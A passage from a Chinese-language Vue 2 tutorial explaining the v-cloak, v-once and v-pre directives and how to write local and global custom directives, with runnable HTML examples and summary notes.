`v-cloak`指令经常搭配 css 使用。在 Vue 还**没有接管容器**时，模板中使用`v-cloak`就会**出现**这个**同名属性**，在 Vue**接管容器**后，模板中的`v-cloak`属性就会**消失**。如果搭配 css 使用，在`v-cloak`属性**出现**时，让所有用于该属性的元素进行`display:none`**隐藏**，在`v-cloak`属性**消失**后该 css 样式**失效**。这样做的目的，是为了让用户不要见到类似`{{xxx}}`等，提高用户的感观。

我们将以前的代码结构稍加调整，将`<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>`移到了**容器**下方，并将浏览器的下载速率**限制到 100k/s**，这样的话**vue.js**会**下载很慢**，那就会让类似`{{xxx}}`先显示在页面上，但这样对用户感观不好。所以又使用了`v-cloak`配合 css 样式优化了这一点（你可以去掉`v-cloak`看会出现什么问题），代码如下，记得页面刷新的时候，使用“**清除缓存并硬性重新加载**”。


```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <style>
      [v-cloak] {
        display: none;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <div v-cloak>{{name}}</div>
    </div>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </body>
  <script type="text/javascript">
    Vue.config.productionTip = false;
    const vm = new Vue({
      el: "#root",
      data: {
        name: "张三",
      },
    });
  </script>
</html>
```

`v-once`指令让元素**初次渲染**后就不再动态变化了，会被视为**静态内容**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2 v-once>初始化值：{{num}}</h2>
      <h2>当前的值：{{num}}</h2>
      <button @click="num++">点我加一</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: { num: 5 },
      });
    </script>
  </body>
</html>
```

`v-pre`指令是告知 Vue**不要解析**它所在的元素了，直接展示在页面。比较适用于没有**模板语法**的元素。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2 v-pre>这里是静态文本，没有使用模板语法</h2>
      <h2>当前的值：{{num}}</h2>
      <button @click="num++">点我加一</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: { num: 5 },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. `v-text`向其所在节点中**渲染文本内容**。它是**整体**替换标签体内容，而**插值**能只代替**一部分**。
2. `v-html`向指定中渲染包含 html 结构的内容。与`v-text`类似，它也会**整体**替换标签体内容，但是它会解析内容里的**标签**。
3. `v-html`有安全性问题，在网站上动态渲染 html 是非常危险的，容易导致**XSS 攻击**，一定要在**可信内容**上使用`v-html`，不要在**用户提交的内容**里使用。
4. `v-cloak`指令是没有值的，本质是一个特殊**属性**。Vue 实例创建完毕并接管容器后，会删除`v-cloak`属性。搭配 css 使用，可以解决网速慢时页面展示出`{{xxx}}`的问题。
5. `v-once`指令所在节点在**初次**动态渲染后，就被视为**静态内容**了。以后数据变化不会引起`v-once`所在节点的更新，可以用于**性能优化**。
6. `v-pre`是跳过其所在节点的解析过程。可用它跳过没有使用**模板语法**的节点，加快组件的解析过程。

---

### 9.2 自定义指令

**自定义指令**是对**原生 DOM 操作**进行了封装，将这些操作封装成了一个**自定义指令**。自定义指令是定义在`directives`里，`directives`与`methods`平级，自定义指令时，不用自己加上`v-`，但在**模板**里使用还是`v-xxx`。

**自定义指令**有**函数**和**对象**两种定义形式。我们先看**函数**的形式，它接收两个参数：`element`和`binding`。其中`element`是自定义指令使用时，它所在的**真实 DOM 元素**，`binding`是自定义指令的**绑定目标**，例如`v-xxx='yyy'`中的 yyy。

`binding`里的`expression`属性是**绑定目标**，它是**js 表达式**；`binding`里的`name`属性就是自定义指令的名字；`binding`里的`rawName`属性就是自定义指令在使用时的名字；`binding`里的`value`属性就是**绑定目标**最终的**值**（js 表达式的值）。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>当前的值：{{num}}</h2>
      <h2>放大10倍后的值：<span v-big="num"></span></h2>
      <button @click="num++">点我加一</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          num: 5,
        },
        // 自定义指令存放处
        directives: {
          // element是自定义指令使用处所在的真实元素，binding是绑定的动态变量
          big(element, binding) {
            // 将原来的num放大10倍
            element.innerText = binding.value * 10;
          },
        },
      });
    </script>
  </body>
</html>
```

上面例子的 big 函数会在何时被调用？

- 在自定义指令与**元素**成功**绑定**时；
- 自定义指令所在**模板**被**重新解析**时。

这两点都有各自的注意点，首先看**第二点**，自定义指令并不是在它**所依赖数据**变化时被调用，而是在**模板**被**重新解析**时被调用，这是 Vue 扩大了范围更加准确无误地让自定义指令运行。  
再看**第一点**，与“**元素**”成功**绑定**，这个“**元素**”是**虚拟元素**，此时对应的**真实元素**还**没有生成**也还**没有添加**到**页面**上进行展示。

因为**big 函数**的**第一点**调用时机会导致一些代码**无法生效**，比如让元素在**初始化**时**获得焦点**。你看下面这个例子，`element.focus()`运行了但没有生效，原因就是`focus()`必须在**真实元素**添加到 DOM 结构后**才能**获得焦点，这就与**第一点**调用时机对应不上了，所以`focus()`也就不生效了。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>当前的值：{{num}}</h2>
      <h2>新的input：<input v-fbind:value="num" /></h2>
      <button @click="num++">点我加一</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: { num: 5 },
        directives: {
          fbind(element, binding) {
            element.value = binding.value;
            element.focus();
          },
        },
      });
    </script>
  </body>
</html>
```

要解决上面的问题，就得使用**对象形式**的自定义指令。该对象有三个属性`bind`、`inserted`和`update`，三个属性的值是方法，在运行到**特定**时机会调用对应的这三个方法中的其中一个。

- `bind`是在自定义指令与虚拟元素成功绑定时被调用；
- `inserted`是自定义指令所在真实元素被插入到页面时被调用；
- `update`是自定义指令在模板被重新解析时被调用。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>当前的值：{{num}}</h2>
      <h2>新的input：<input v-fbind:value="num" /></h2>
      <button @click="num++">点我加一</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: { num: 5 },
        directives: {
          fbind: {
            // 自定义指令与虚拟元素成功绑定时bind被调用
            bind(element, binding) {
              element.value = binding.value;
            },
            // 自定义指令所在真实元素被插入到页面时inserted被调用
            inserted(element, binding) {
              element.focus();
            },
            // 自定义指令在模板被重新解析时update被调用
            update(element, binding) {
              // 这行别忘写了，模板更新时这个数据也得更新
              element.value = binding.value;
            },
          },
        },
      });
    </script>
  </body>
</html>
```

自定义指令的其他注意点：

- 自定义指令的命名，如果是**多个单词**，就使用`-`短横线进行分隔，在`directives`方法对应就写**字符串**形式。
- 自定义指令相关的回调函数，也就是`bind`、`inserted`和`update`这三个方法，它们的**this**不是**vm**，而是 Window 本身。原因就是它们的入参`element`和`binding`就足够使用了，无需用到 Vue 实例。
- 我们可以定义**全局自定义指令**，使用的是`Vue.directive('xxx', {bind(){},inserted(){},update(){}})`。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
</head>
<body>
    <div id="root">
        <h2>当前的值：{{num}}</h2>
        <h2>放大5倍后的值：<span v-big="num"></span></h2>
        <!-- 自定义指令是多个单词组成，使用短横线-分隔 -->
        <h2>放大10倍后的值：<span v-big-number="num"></span></h2>
        <h2>新的input：<input v-fbind:value="num"></input></h2>
        <button @click="num++">点我加一</button>
    </div>
    <script type="text/javascript">
        Vue.config.productionTip = false;
        // 全局自定义属性
        Vue.directive('big', function (element, binding) {
            element.innerText = binding.value * 5;
        })
        const vm = new Vue({
            el: '#root',
            data: { num: 5 },
            directives: {
                // 自定义指令是多个单词组成，定义处使用字符串形式
                'big-number': function (element, binding) {
                    // 自定义指令的this是指向Window的
                    console.log('this', this);
                    element.innerText = binding.value * 10;
                },
                fbind: {
                    // 自定义指令与虚拟元素成功绑定时bind被调用
                    bind(element, binding) {
                        element.value = binding.value;
                    },
                    // 自定义指令所在真实元素被插入到页面时inserted被调用
                    inserted(element, binding) {
                        element.focus();
                    },
                    // 自定义指令在模板被重新解析时update被调用
                    update(element, binding) {
                        element.value = binding.value;
                    }
                }
            }
        });
    </script>
</body>
</html>
```

---

**总结拓展**：

1. 自定义指令语法：
   1. 局部指令：`new Vue({directives: xxx(){}})`或`new Vue({directives: {xxx:{bind(){},inserted(){},update(){}}}})`
   2. 全局指令：`Vue.directive('xxx', function(element, binding){})`或`Vue.directive('xxx', {bind(){},inserted(){},update(){}})`
2. 自定义指令的配置对象里常用的 3 个回调：
   1. `bind`，自定义指令与虚拟元素成功绑定时 bind 被调用
   2. `inserted`，自定义指令所在真实元素被插入到页面时 inserted 被调用
   3. `update`，自定义指令在模板被重新解析时 update 被调用
3. 备注：
   1. 自定义指令在定义时不要加`v-`，但要在使用时加上`v-`；
   2. 自定义指令如果是**多个单词**组成的，要使用**短横线**`-`进行分隔，对应方法名使用**字符串**形式。

---
